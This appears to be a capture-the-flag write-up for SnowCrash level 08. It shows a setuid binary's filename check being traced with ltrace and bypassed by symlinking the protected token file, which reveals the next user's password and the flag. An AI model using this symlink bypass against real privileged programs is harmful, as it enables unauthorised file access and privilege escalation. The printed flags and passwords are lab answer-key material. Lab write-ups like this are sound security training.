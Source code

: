 # Level 08

- Once logged in, you will see couple files
```
???$ ssh level08@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level08@localhost's password:
level08@SnowCrash:~$
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$
level08@SnowCrash:~$ ls -ls
total 16
12 -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
 4 -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

let's run the binary and see what it does

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
...
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
as seen above, the `token` cannot be accesseed within the `level08` user

of course, the below would not work ;)

```
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

`ltrace` with the token that is not accessible, below is the result
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                      = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                  = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```
the `strstr` function is used to check if the filename contains `token`, it cannot be executed.

let's try using the symbolic link to resolve this
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/passcode
level08@SnowCrash:~$ ls -ls /tmp/passcode
0 lrwxrwxrwx 1 level08 level08 24 May 11 04:57 /tmp/passcode -> /home/user/level08/token
```
at least the permissions are set, and let's run

```
level08@SnowCrash:~$ ./level08 /tmp/passcode
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```
